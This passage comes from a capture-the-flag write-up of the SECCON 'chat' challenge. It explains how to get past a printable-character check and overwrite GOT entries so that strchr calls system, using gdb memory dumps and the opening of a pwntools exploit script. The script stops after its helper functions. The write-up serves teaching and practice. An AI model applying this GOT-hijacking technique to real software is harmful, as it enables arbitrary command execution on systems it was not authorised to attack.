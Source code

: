 ```
```
We can see that `free`'s GOT ( `0x603018` ) stores the address `0x7eff8fd9bd00`. Its first character is `0x00`, which is not printable, making us unable to change the content of `0x603018`. Even if its first character is printable, the `system`'s offset in the libc is `0x46590` -- another non-printable first character, which will make the program remove (freeing) the user name and crash the program ( for trying to free a GOT entry ). 

So how are we gonna bypass the check? Well it's a little bit tricky, but also very interesting. I notice that the GOT entry of `stack_chk_fail` stores the address `0x4007f6`. Although `0xf6` is non-printable, the third character `0x40` is a printable character. Hmmmm, if only I can make `0x40` to our user name's first character...
```
gdb-peda$ tel 0x60302a
00:0000|  0x60302a --> 0xb100000000000040   <-- printable first character !
01:0008|  0x603032 --> 0xfd4000007eff8fd8 
02:0016|  0x60303a --> 0xae5000007eff8fd9 
03:0024|  0x603042 --> 0x716000007eff8fd3 
04:0032|  0x60304a --> 0x8e0000007eff8fd8 
05:0040|  0x603052 --> 0xd2b000007eff8fe5 
06:0048|  0x60305a --> 0x86600007eff8fd6 
07:0056|  0x603062 --> 0x8e80000000000040
```

That's right ! If we change the `userC->name` pointer into `0x60302a`, we can start overwriting the content from `0x60302a`. We first filled the GOT entry of `stack_chk_fail` with some printable characters ( now the first character of new user name is printable ! ), then we can start hijack some GOT ! 

Here I decided to hijack `strchr`'s GOT so when the program call `strchr(buf, 10)` ( `buf` stores our input ) it will call `system(buf)` instead.  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "chat.pwn.seccon.jp"
PORT = 26895
ELF_PATH = "./chat"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6" # ubuntu 14.04 64bit

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)
```